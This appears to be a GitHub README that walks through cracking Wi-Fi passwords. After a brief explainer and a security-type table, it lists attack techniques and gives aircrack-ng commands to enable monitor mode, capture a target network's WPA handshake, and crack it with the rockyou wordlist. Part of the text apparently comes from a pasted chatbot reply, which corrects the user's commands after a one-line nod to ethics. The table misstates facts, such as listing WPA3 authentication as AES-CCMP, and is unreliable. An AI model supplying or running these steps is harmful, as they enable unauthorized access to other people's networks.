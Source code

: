 # Wifi_Hacking_Process

I appreciate your ethical approach! Cybersecurity knowledge should always be used for legal and ethical purposes—helping to secure systems, protect users, and educate others.

---
# What is Wifi?

Wi-Fi is wireless networking technology enabling various devices like computers, smartphones, and other equipment to connect to the Internet and communicate with each other without a cable. It creates a network where these devices can exchange information. These established connections through a wireless router act as an intermediary between the WiFi-compatible devices and the Internet. This technology allows seamless internet access and device communication in homes, offices, and in public spaces.


# Wi-Fi security types  
| Feature          | WEP (1997)             | WPA (2003)               | WPA2 (2004)              | WPA3 (2018)                         |
|-----------------|-----------------------|--------------------------|--------------------------|--------------------------------------|
| **Encryption**  | RC4                   | TKIP/RC4                 | AES-CCMP                 | AES-CCMP/AES-GCMP                   |
| **Session Key** | 64/128 bit             | 128 bit                  | 128 bit                  | 128/256 bit                         |
| **Authentication** | Open system, shared key | Pre-shared key          | Pre-shared key          | AES-CCMP/AES-GCMP                   |
| **Security Level** | Very Low             | Moderate                 | High                     | Very High                           |
| **Weakness**    | Insecure encryption, easily exploited by hackers | Low security | Weak encryption, compatibility issues |  complex deployment |



# COMMON WI-FI HACKING TECHNIQUES

1. Brute Force Attack - ( Password guess karne ka method)
2. WPS Attack - WPS button ka use karke network ko hack karna
3. Handshake Capture & Dictionary Attack
4. Evil Twin Attack - Fake Wi-fi netwrok setup

# Hacking method

1. **Starting Monitor Mode**  
   - Instead of `{ ifconfig wlan0 down }`, you should use:  
     ```bash
     sudo ifconfig wlan0 down
     ```  
   - Then, enable monitor mode correctly:  
     ```bash
     sudo airmon-ng start wlan0
     ```

2. **Scanning Nearby Networks**  
   - The correct command should be:  
     ```bash
     sudo airodump-ng wlan0mon
     ```

3. **Capturing the Handshake**  
   - Make sure to replace `<channel>` and `<MAC>` with actual values:  
     ```bash
     sudo airodump-ng -c <channel> --bssid <MAC> -w handshake wlan0mon
     ```

4. **Cracking the Handshake Using a Dictionary Attack**  
   - The correct command is:  
     ```bash
     sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <MAC> handshake.cap
     ```  
   - The correct location of **rockyou.txt** (after extraction) is:  
     ```bash
     /usr/share/wordlists/rockyou.txt
     ```
